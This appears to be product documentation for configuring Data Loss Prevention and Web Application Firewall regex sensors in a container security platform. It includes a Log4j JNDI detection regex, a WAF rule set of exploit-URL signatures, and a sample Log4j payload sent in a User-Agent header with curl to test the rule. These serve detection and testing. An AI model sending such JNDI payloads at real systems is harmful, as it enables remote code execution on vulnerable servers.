 = DLP & WAF Sensors
:page-opendocs-origin: /05.policy/09.dlp/09.dlp.md
:page-opendocs-slug:  /policy/dlp

== Data Loss Prevention (DLP) and Web Application Firewall (WAF)

DLP and WAF uses the Deep Packet Inspection (DPI) of {product-name} to inspect the network payloads of connections for sensitive data violations. {product-name} uses a regular expression (regex) based engine to perform packet filtering functions. Extreme care should be taken when applying sensors to container traffic, as the filtering function incurs additional system overhead and can impact performance of the host.

DLP and WAF filtering are applied differently depending on the group(s) to which they are applied. In general, WAF filtering is applied to inbound and outbound connections except for internal traffic where only inbound filtering is applied. DLP filtering applies to inbound and outbound connections from a 'security domain', but not any internal connections within a security domain. See the detailed descriptions below.

Configuring DLP or WAF is a two step process:

. Define and test the sensor(s), which is the set of regular expressions used to match the header, URL, or entire packet.
. Apply the desired sensor to a Group, in the Policy -> Groups screen.

=== WAF Sensors

WAF sensors represent inspection of network traffic to/from a pod/container. These sensors can be applied to any applicable group, even custom groups (e.g. namespace groups). Incoming traffic to ALL containers within the group will be inspected for WAF rule detection. In addition, any outbound (egress) connections external to the cluster will be inspected.

This means that, while this feature is named WAF, it is useful and applicable to any network traffic, not only web application traffic, and therefore provides broader protections than simple WAFs. For example, API security can be enforced on outbound connections to an external api service, allowing only GET requests and blocking POSTs.

Also note that, while similar to DLP, the inspection is for incoming traffic to EVERY pod/container within the group, while DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers).

image:waf_sensors.png[waf]

=== DLP Sensors

DLP Sensors are the patterns that are used to inspect traffic. Built in sensors such as credit card and U.S. social security have predefined regular expressions. You can add custom sensors by defining regex patterns to be used in that sensor. Note that, while similar to WAF, DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers). WAF inspection is for incoming traffic only to EVERY pod/container within the group.

image:sensors.png[dlp]

=== Configuring DLP and WAF sensors

The configuration of DLP and WAF sensors is similar. Create a sensor Name and any comment, then select the sensor to Add or Edit the rules for that sensor. Key fields include:

* Have/Not Have. Determines if the match requires the pattern to be found (Have) in order to take the action (e.g. Deny), or only if the pattern does not exist (Not Have) should the action be taken. It is recommended that the "Not Have" operator be combined in the rule with a pattern using the "Have" operator because a single pattern with "Not Have" operator will not be effective.
* Pattern. This is the regular expression used to determine a match. You can test your regex against sample data to ensure correct Have/Not Have results.
* Context. Where to look for the pattern match. Choose packet for the broadest inspection of the entire network connection, or narrow the inspection to the URL, header, or body only.

image:5_sensor_config.png[waf]

Each DLP/WAF rule supports multiple patterns (max 16 patterns are allowed per rule). Multiple patterns as well as setting the rule context can also help reduce false positives.

Example of a DLP rule with a Have/Not Have pattern:
Have:

[,shell]
----
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\b
----

This produces a false positive match for "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":

[,shell]
----
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!
----

Adding a Not Have pattern removes the false positive:

[,shell]
----
istio\_(\w){5}
----

*_Sensors must be applied to a Group to become effective._*

=== Applying DLP/WAF Sensors to Container Groups

To activate a DLP or WAF sensor, go to Policy -> Groups to select the group desired. Enable DLP/WAF for the Group and add the sensor(s).

It is recommended that DLP sensors be applied to the boundary of a security zone, defined by a Group, to minimize the impact of DLP inspection. If needed, define a Custom Group that represents such a security zone.  For example, if the Group selected is the reserved group 'containers', and DLP sensors added to the group, only traffic in or out of the cluster and not between all containers will be inspected. Or if it is a custom group defined as 'namespace=demo' then only traffic in or out of the namespace demo will be inspected, and not any inter-container traffic within the namespace.

It is recommended that WAF sensors be applied only to Groups where incoming (e.g. ingress) connections are expected, unless the sensor(s) apply to specific internal applications (expecting east-west traffic).

image:apply_dlp_group.png[group]

==== DLP/WAF Behavior Summary

* DLP pattern matching does not occur for the traffic which is passing among workloads that belong to same DLP group.
* Any traffic passing in and out of a DLP group is scanned for pattern matches.
* Cluster ingress and egress traffic is scanned for patterns if the workload is allowed to make ingress/egress connections.
* Multiple patterns per DLP/WAF rule (max 16 patterns are allowed per rule).
* Multiple alerts are generated for a single packet if it matches multiple rules.
* For performance reasons, only the first 16 rules are alerted and matched even if the packet matches more than 16 rules.
* Alerts are aggregated and reported together if same rule matches and alerts multiple times within 2 seconds.
* PCRE is used for pattern matching.
* Hyper scan library is used for efficient, scalable and high-performance pattern matching.

=== DLP/WAF Actions in Discover, Monitor, Protect Modes

When adding sensors to groups, the DLP/WAF action can be set to Alert or Deny, with the following behavior if there is a match:

* Discover mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Monitor mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Protect mode. The action will be to alert if set to Alert, or block if set to Deny.

=== Log4j Detection WAF Pattern

The WAF-like rule to detect the Log4j attempted exploit is below. Please note this should only be applied to Groups expecting ingress web connections.

[,shell]
----
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
----

Also note that there are ways that attackers could bypass detection by such rules.

=== Testing the Log4j WAF Detection

In an attempted exploit, the attacker will construct an initial jndi: insertion and include it in the User-Agent HTTP Header:

[,shell]
----
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}
----

Using curl to POST data to server(container) can help to test WAF rule:

[,shell]
----
curl -X POST -k  -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"
----

=== WAF Setup and Testing

The downloadable file below provides an unsupported script for creating WAF sensors via CRD and running common WAF rule tests against those sensors. The README provides instructions for running it.

xref:attachment$waf_test.zip[Download WAF test script]

=== Sample Alerts

==== DLP match in Discover or Monitor Mode

image:dlp4_alert_discover.png[DLPAlert]

==== DLP match in Protect Mode

image:dlp_5_protect.png[DLPProtect]

==== DLP Security Event Notification for Credit Card Match

image:dlp6_credit.png[DLPCredit]

[NOTE]
====
The automated packet capture will contain the actual packet including the credit card number matched. This is also true of any DLP packet capture for any sensitive data.
====

== Managing WAF Rules Using Import/Export or CRDs

It is possible to import or export WAF rules from the WAF screen. This can be useful to be able to propagate rules to other clusters, make a backup, or prepare them for applying as a CRD.

In order to create WAF sensors or apply a WAF sensor to a group using CRDs, make sure the appropriate NVWafSecurityRule cluster role binding is created.

Sample WAF sensor CRD

.Click here for details
[%collapsible]
====
[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvWafSecurityRule
  metadata:
    name: sensor.execution
  spec:
    sensor:
      comment: arbitrary command execution attempt
      name: sensor.execution
      rules:
      - name: Alchemy
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/NUL\/.*\.\.\/\.\.\/
      - name: Log4j
        patterns:
        - context: header
          key: pattern
          op: regex
          value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
      - name: formmail
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/formmail
        - context: packet
          key: pattern
          op: regex
          value: \x0a
      - name: CCBill
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whereami\.cgi?.*g=
      - name: DotNetNuke
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Install\/InstallWizard.aspx.*executeinstall
      - name: HNAP
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/tmUnblock.cgi
        - context: header
          key: pattern
          op: regex
          value: 'Authorization: Basic\s*YWRtaW46'
      - name: Magento
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Adminhtml_.*forwarded=
      - name: b2
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
      - name: bat
        patterns:
        - context: url
          key: pattern
          op: regex
          value: x2ebat\x22.*?\x26
      - name: eshop.pl
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/eshop\.pl?.*seite=\x3b
      - name: whois_raw.cgi
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whois_raw\.cgi?
        - context: packet
          key: pattern
          op: regex
          value: \x0a
kind: List
metadata: null
----
====

Sample CRD to apply a WAF sensor to a Group

.Click here for details
[%collapsible]
====
[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvSecurityRule
  metadata:
    name: demo-group
    namespace: demo
  spec:
    egress: []
    file: []
    ingress: []
    process: []
    process_profile:
      baseline: default
    target:
      policymode: N/A
      selector:
        comment: ""
        criteria:
        - key: domain
          op: =
          value: demo
        - key: service
          op: =
          value: nginx-pod.demo
        - key: service
          op: =
          value: node-pod.demo
        name: demo-group
        original_name: ""
    waf:
      settings:
      - action: deny
        name: sensor.cross
      - action: deny
        name: sensor.execution
      - action: deny
        name: sensor.injection
      - action: deny
        name: sensor.traversal
      - action: deny
        name: wafsensor-1
      status: true
kind: List
metadata: null
----
====

See the xref:usingcrd.adoc[CRD section] for more details on working with CRDs.

== DLP/WAF Response Rules

Response rules based on DLP/WAF security events can be created in Policy ->Response Rules. Start type DLP or WAF and the dropdown will list all sensors and patterns available to create rules.

image:dlp7_response.png[DLPResponse]
